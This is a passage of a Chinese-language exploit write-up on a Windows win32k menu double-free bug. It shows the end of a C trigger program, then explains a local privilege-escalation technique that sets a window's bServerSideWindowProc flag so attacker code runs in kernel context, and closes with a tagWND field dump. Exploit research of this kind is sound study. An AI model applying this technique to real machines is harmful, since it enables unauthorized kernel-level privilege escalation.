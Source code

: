 ```c
		NULL,
		GetModuleHandleA(NULL),
		NULL);

	SetWindowsHookExW(WH_CALLWNDPROC, xxWindowHookProc,
		GetModuleHandleA(NULL),
		GetCurrentThreadId());
	SetWinEventHook(EVENT_SYSTEM_MENUPOPUPSTART, EVENT_SYSTEM_MENUPOPUPSTART,
		GetModuleHandleA(NULL),
		xxWindowEventProc,
		GetCurrentProcessId(),
		GetCurrentThreadId(),
		0);

	TrackPopupMenuEx(hpopupMenu[0], 0, 0, 0, hWindowMain, NULL);

	MSG msg = { 0 };
	while (GetMessageW(&msg, NULL, 0, 0))
	{
		TranslateMessage(&msg);
		DispatchMessageW(&msg);
	}

	return 0;
}
```

## 0x03 exp
到目前我们我们已经知道成因了，问题是我们怎么利用呢？一个二次释放的蓝屏洞有办法利用吗？

二次释放的蓝屏洞当然没办法利用，但是我们可以凭着内核模式的身份，利用在这个过程中的其它代码来执行某些操作，以达到我们想要的目的。一般漏洞利用就是 RCE 或者本地提权，这个漏洞一看也知道不可能出 RCE，所以我们的利用最终目的就是本地提权了。

### bServerSideWindowProc
窗口结构体 tagWND 对象的成员标志位 bServerSideWindowProc 是一个特殊标志位，该标志位决定所属窗口对象的消息处理函数属于服务端还是客户端。当函数 xxxSendMessageTimeout(xxxSendMessage 里调用的) 即将调用目标窗口对象的消息处理函数以分发消息时，会判断该标志位是否置位。

如果该标志位置位，则函数将直接使当前线程在内核上下文调用目标窗口对象的消息处理函数；否则，函数通过调用函数 xxxSendMessageToClient 将消息发送到客户端进行处理，目标窗口对象的消息处理函数将始终在用户上下文调用和执行。

诸如菜单窗口对象之类的特殊窗口对象拥有专门的内核模式消息处理函数，因此这些窗口对象的成员标志位 bServerSideWindowProc 在对象创建时就被置位。而普通窗口对象由于只指向默认消息处理函数或用户进程自定义的消息处理函数，因此该标志位往往不被置位。

如果能够通过某种方式将未置位标志位 bServerSideWindowProc 的窗口对象的该标志位置位，那么该窗口对象指向的消息处理函数也将直接在内核上下文中执行。

到这里只要我们想办法让一个我们创建的普通窗口对象的 bServerSideWindowProc 位被置位，那么我们就可以在内核模式下执行我们自定义的消息处理函数了。若消息处理函数中放的是提权代码，那么理所当然地就能完成提权了。

所以问题就来到了如何使 bServerSideWindowProc 位被置位呢？

我们看看 bServerSideWindowProc 所在地址的字节

```c
+0x014 bDialogWindow    : Pos 16, 1 Bit
+0x014 bHasCreatestructName : Pos 17, 1 Bit
+0x014 bServerSideWindowProc : Pos 18, 1 Bit
+0x014 bAnsiWindowProc  : Pos 19, 1 Bit
+0x014 bBeingActivated  : Pos 20, 1 Bit
+0x014 bHasPalette      : Pos 21, 1 Bit
+0x014 bPaintNotProcessed : Pos 22, 1 Bit
+0x014 bSyncPaintPending : Pos 23, 1 Bit
```
